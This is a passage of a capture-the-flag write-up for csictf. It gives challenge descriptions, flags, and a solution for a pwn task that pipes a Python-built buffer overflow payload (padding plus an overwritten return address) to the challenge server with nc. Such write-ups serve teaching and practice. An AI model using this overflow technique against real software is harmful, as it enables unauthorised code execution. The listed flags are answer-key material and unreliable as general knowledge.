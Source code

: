 <br />

Flag: `csictf{c4n_y0u_re4lly_telep0rt?}`



<br /><br />
<br /><br />
## [Pwn]: pwn intended 0x3
- - -
### Challenge
> Teleportation is not possible, or is it?
<br /><br />
nc chall.csivit.com 30013

Attachment:

- pwn-intended-0x3

<br />
### Solution
<pre>
$ (python -c 'print("A"*40)+"\xce\x11\x40\x00\x00\x00\x00\x00"' ; cat - ) | nc chall.csivit.com 30013
Welcome to csictf! Time to teleport again.
Well, that was quick. Here's your flag:
csictf{ch4lleng1ng_th3_v3ry_l4ws_0f_phys1cs}
</pre>

<br />

Flag: `csictf{ch4lleng1ng_th3_v3ry_l4ws_0f_phys1cs}`




<br /><br />
<br /><br />
## [Web]: Cascade
- - -
### Challenge
> Welcome to csictf.
<br /><br />
[http://chall.csivit.com:30203](http://chall.csivit.com:30203)

<br />
### Solution
style.cssの中にフラグが入っていました。

<br />

Flag: `csictf{w3lc0me_t0_csictf}`

